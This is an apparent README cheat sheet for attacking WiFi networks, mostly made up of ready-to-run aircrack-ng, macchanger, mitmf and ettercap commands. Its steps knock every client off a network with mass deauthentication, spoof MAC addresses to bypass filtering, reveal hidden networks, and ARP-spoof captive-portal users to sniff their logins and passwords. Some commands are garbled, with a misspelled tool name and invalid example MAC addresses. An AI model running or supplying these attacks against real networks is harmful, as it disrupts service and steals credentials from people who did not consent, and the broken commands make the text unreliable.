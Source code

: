                                       __        ___  __ _   ____            _            _   
                                      \ \      / (_)/ _(_) |  _ \ ___ _ __ | |_ ___  ___| |_ 
                                       \ \ /\ / /| | |_| | | |_) / _ \ '_ \| __/ _ \/ __| __|
                                        \ V  V / | |  _| | |  __/  __/ | | | ||  __/\__ \ |_ 
                                         \_/\_/  |_|_| |_| |_|   \___|_| |_|\__\___||___/\__|                           
                                          Pre-connection Attacks
                                          Gaining Access
                                          Post-connection Attacks]
Other links:
https://github.com/0x90/wifi-arsenal

## WiFi Bands
-----------
● Decides the frequency range that can be used. 
● Determines the channels that can be used. 
● Clients need to support band used by router to communicate with it. 
● Data can be sniffed from a certain band if the wireless adapter used supports that band.

● Most common WiFi Bands are: 
 ○ a uses 5 Ghz frequency only. 
 ○ b, g both use 2.4 Ghz frequency only. 
 ○ n uses 5 and 2.4 Ghz. 
 ○ ac uses frequencies lower than 6 Gh
 
Enabling monitor mode
----------------------
iwconfig
airmon-ng check kill  
airmon-ng start wlan1 
airodump-ng wlan1mon 
or
airodump-ng --band a wlan1mon (show all type of wifi networks)

Pre-connection Attacks
-----------------------
 1.Mac address changing
 2.Deauthenticating All Clients From Protected WiFi Network
 3.Deauthenticating a Client From Protected WiFi Networks
    mac changing
    ............
    ifconfig wlan0 down
    ifconfig wlan0 hw ether 00:ff:ff:ff:44:55
    ifconfig wlan0 up
    ifconfig wlan0

    Deauthenticating All Clients From Protected WiFi Network
    ........................................................
    airodump-ng -bssid 44:55:tt:ee:ee:bb --channel 11 wlan0
    aireplay-ng --deauth 10000000 -a 44:55:tt:ee:ee:bb wlan0

    Deauthenticating a Client From Protected WiFi Networks
    ......................................................
    aireplay-ng --deauth 10000000 -a 44:55:tt:ee:ee:bb -c 22:dd:33:44:55:66 wlan0

Gaining Access
---------------
1.Find SSID of hidden networks
2.Bypass mac filtering
3.To gain access to
  - Captive portals
  - WEP
  - WPA
  - WPA 2
  - WPA/WPA2 Enterpise
4.Fake Access Point

  Discovering Names of Hidden Networks
  .....................................
    airodump-ng --bssid 44:55:tt:ee:ee:bb --channel 6 wlan0
    airoplay-ng --deauth 4 -a 44:55:tt:ee:ee:bb -c 22:dd:33:44:55:66 wlan0

  Bypassing Mac Filtering (Blacklists & Whitelists)
  ..................................................
    ifconfig wlan0 down
    macchanger -m 22:dd:33:44:55:66 wlan0

  Bypassing Captive portals
  ..........................
     1.Change mac address to one of a connencted client.
     2.Sniff logins in monitor mode.
       - Since captive portals are OPEN.
       - IE: they do not use encryption.
       - We can sniff data sent to/from it using airodump-ng
       - Then use WIRESHARK to read this data including passwords.
     3.Create a fake AP, ask users to login.
     4.Connect and sniff logins after running an arp spoofing attack.
       - Since captive portal are open.
       - Therefore we can connect to the target without a password.
       - We can then run a normal arp spoofing attack.
       = clients will autoatically lose their connection and will be asked to login again.
       = Dta sent to/from router including passwords will be directed to us.
mitmf --arp --spoof -i wlan0 --gateway 192.168.10.1
ettercap -Tq -M arp:remote -i wlan0 ///
